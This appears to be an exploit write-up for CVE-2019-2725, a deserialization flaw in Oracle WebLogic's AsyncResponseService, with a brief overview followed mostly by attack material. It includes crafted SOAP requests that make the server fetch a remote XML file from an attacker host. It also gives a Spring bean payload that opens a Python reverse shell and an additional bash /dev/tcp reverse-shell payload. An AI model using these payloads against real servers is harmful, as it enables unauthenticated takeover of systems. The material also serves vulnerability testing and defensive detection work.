








# [Oracle Weblogic Server] - ['AsyncResponseService' Component Deserialization Remote Command Execution]

* **Exploit Title:** [Oracle Weblogic Server] - ['AsyncResponseService' Component Deserialization Remote Command Execution]
* **Vendor Homepage**: https://www.oracle.com/security-alerts/alert-cve-2019-2725.html
* **Software Link**: https://www.oracle.com/middleware/weblogic/
* **Version**: 10.3.6.0.0, 12.1.3.0.0
* **Tested on**: Oracle WebLogic 10.3.6.0.0 running on IBM Red Hat linux 
* **CVE** : CVE-2019-2725

---

## Overview

The Oracle WebLogic subcomponent "wls9_async" also known as "AsyncResponseService" is vulnerable to  deserialization attacks. The vulnerability tracked with “CVE-2019-2725" exists due to an unsafe deserialization flaw in the "XMLDecoder" class within the WebLogic WLS security component "wls9_async" allowing unauthenticated remote code execution. An unauthenticated users with network access via HTTP protocol can send specially crafted XML requests to the WebLogic server to compromise the system.

## Prerequisites

* 'AsyncResponseService' component enabled and installed

## Full description

### Pre-knowledge

The following diagram describes how WebLogic handles SOAP requests:



The exploitation is triggered by sending specific crafted SOAP request with XML data to the WLS "AsyncResponseService" through the path "/_async/AsyncResponseService".  

The whole process is described as follows:



### Detecting if the "wls9_async" component is installed and enabled on the WebLogic server



### Detecting if the endpoint is vulnerable and handles properly an arbitrary SOAP message

A TCP listener was created on port 44409 using the netcat utility to check if exploit is successful. Indeed, due to the "_async" endpoint behaviour, the server always returns a 202 HTTP status code even if the requests are processed properly or not (Blind execution). If the exploitation failed, no error messages are displayed. During testing, the following IP address "10.198.143.172" was assigned to the attacker host.

HTTP Request:
```http
POST /_async/AsyncResponseService HTTP/1.1
Host: vulnerableHost:7004
Content-Length: 624
Content-type: text/xml;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Connection: close
```

SOAP Payload:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <wsa:Action></wsa:Action>
        <wsa:RelatesTo></wsa:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <class>
                    <string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
                    <void>
                        <string>http://10.198.143.172:44409/DS_RvVWkBZ</string>
                    </void>
                </class>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
        <asy:onAsyncDelivery />
    </soapenv:Body>
</soapenv:Envelope>
```



HTTP Response:



TCP connection request received by the attacker host “10.198.143.172” :



As shown above, the request is successfully executed on the server. 

### RCE Exploitation

Two steps are required for successful attack. The construction method can refer to the [CVE-2017-17485](https://nvd.nist.gov/vuln/detail/CVE-2017-17485) and the payload described below ignores the jdk version limit to obtain reliable and universal exploitation of this vulnerability.

A malicious XML file can be loaded from an external host to perform remote arbitrary code execution (RCE) on the server. 

The malicious XML file was hosted on the attacker’s host using the lightweight Python web server module "SimpleHTTPServer". This XML file contains a malicious payload (bean) to spawn a Python reverse shell one-liner on TCP port 443 within the context of the application.

XML Payload hosted on the attacker’s web server:
```xml
<?xml version="1.0" encoding="utf-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.198.143.172",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

HTTP Request to trigger the vulnerability:
```http
POST /_async/AsyncResponseService HTTP/1.1
Host: vulnerableHost:7004
Content-Length: 624
Content-type: text/xml;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Connection: close
```

SOAP Payload:

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <wsa:Action></wsa:Action>
        <wsa:RelatesTo></wsa:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <class>
                    <string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
                    <void>
                        <string>http://10.198.143.172/evil.xml</string>
                    </void>
                </class>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
        <asy:onAsyncDelivery />
    </soapenv:Body>
</soapenv:Envelope>
```


HTTP request received from the server to load the arbitrary XML file "evil.xml":



TCP listener on port 443 using the netcat utility:




### Additional Payload
```xml
<?xml version="1.0" encoding="utf-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/10.198.143.172/443 0>&1]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```
